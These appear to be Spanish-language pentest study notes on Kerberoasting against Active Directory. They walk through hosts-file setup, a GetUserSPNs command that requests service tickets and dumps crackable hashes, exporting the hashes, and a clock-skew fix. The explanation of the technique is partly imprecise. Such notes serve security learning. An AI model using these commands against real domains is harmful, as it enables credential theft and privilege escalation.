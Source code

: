 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Requisitos
Para evitar problemas debemos añadir al `/etc/hosts` lo siguiente, en el caso de este ataque con poner solo la ip y el nombre de dominio es suficiente.
```
<ip_DC> <nombre_dominio> <dominio> <nombre-DC>
```
Ejemplo:
```
192.168.214.149 wizcorp.local wizcorp DC-Company
```

# Efectuar ataque con GetUserSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
python GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
[Ver ejemplo](/Apuntes-AD/Images/3.md)

# Exportar hashes
En el caso de obtener un hash se pueden exportar directamente a un archivo con el parametro `-output <file>`

# Fix
Si el ataque te da el siguiente error: "Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)" debes sincronizar la hora con el server de AD con el siguinte comando:
```
rdate -n <IP_DC>
```
